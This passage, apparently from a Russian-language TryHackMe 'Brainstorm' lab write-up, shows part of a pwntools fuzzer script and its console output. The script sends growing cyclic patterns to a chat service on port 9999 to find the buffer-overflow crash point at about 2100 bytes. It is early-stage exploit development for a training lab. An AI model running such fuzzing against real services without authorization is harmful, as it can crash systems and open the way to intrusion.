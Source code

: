 ```python

    pattern = cyclic(5000)  # Generate smart pattern
    chunk_size = 100
    max_size = 5000
    timeout = 2

    for i in range(0, max_size, chunk_size):
        try:
            current_payload = pattern[:i]
            log.info(f"Sending {len(current_payload)} bytes")
            io.sendline(current_payload)
            response = io.recv(timeout=timeout)
            if not response:
                log.success(f"Server stopped responding at [{i}] bytes")
                break
            if b'Write a message:' not in response:
                log.success(f"Unexpected response at [{i}] bytes")
                break
        except EOFError:
            log.success(f"Server crashed at ~[{i}] bytes")
            break
        except Exception as e:
            log.warning(f"Error at [{i}] bytes: {str(e)}")
            break

    # Try to interact if crash detected
    try:
        io.interactive()
    except:
        pass

# ==================== MAIN =====================
if __name__ == '__main__':
    run_fuzzer()
```

Приложение крашится при отправке 2100 байт
```bash
┌──(.venv)─(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Brainstorm/exploits]
└─$ python3 x.py
[+] Opening connection to 192.168.56.124 on port 9999: Done
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): 
b'--pentest'
Write a message: 
[*] Sending 0 bytes
[*] Sending 100 bytes
[*] Sending 200 bytes
[*] Sending 300 bytes
[*] Sending 400 bytes
[*] Sending 500 bytes
[*] Sending 600 bytes
[*] Sending 700 bytes
[*] Sending 800 bytes
[*] Sending 900 bytes
[*] Sending 1000 bytes
[*] Sending 1100 bytes
[*] Sending 1200 bytes
[*] Sending 1300 bytes
[*] Sending 1400 bytes
[*] Sending 1500 bytes
[*] Sending 1600 bytes
[*] Sending 1700 bytes
[*] Sending 1800 bytes
```
